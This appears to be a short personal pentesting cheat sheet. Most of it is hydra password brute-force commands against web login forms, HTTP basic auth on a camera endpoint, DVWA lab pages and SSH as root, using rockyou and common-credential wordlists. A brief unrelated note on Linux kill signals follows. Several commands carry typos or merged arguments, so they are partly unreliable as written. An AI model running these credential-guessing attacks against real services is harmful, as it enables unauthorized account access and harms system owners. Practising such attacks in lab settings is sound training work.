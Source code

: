 
Hydra with get parameters brutefrorce


hydra -L usernames.txt -P passwords.txt site.appspot.com http-get-form "/lab/webapp/1:email=^USER^&password=^PASS^:Failed"


hydra http basic auth
hydra -l admin -P  /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt8090 -f 192.168.1.4 http-get /get_camera_params.cgi






hydra 10.11.1.250 -t 2 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form
“/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed”




hydra 10.11.1.250 -t 2 -l admin -P /usr/share/wordlists/rockyou.txt http-form-get http-get-form
"/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie:
security=low;PHPSESSID=409e45633a8281adb8f182021cfacd14"








ssh
hydra -l root -P password-file 10.10.10.10 ssh






debugging with hydra
 -v for verbose mode.
• -V for displaying each attempt on the terminal.
• -D for debugging.


===========================


Linux signals
kill command : a kill message is sent to the process by the kernel
kill pid


default signal is TERM                 - Terminate
you can send a different by one by appending the signal to the command :
kill -STOP pid




A stopped process is still in memory, ready to pick up where it left off. Use the CONT signal to continue running the process again:


$ kill -CONT pid
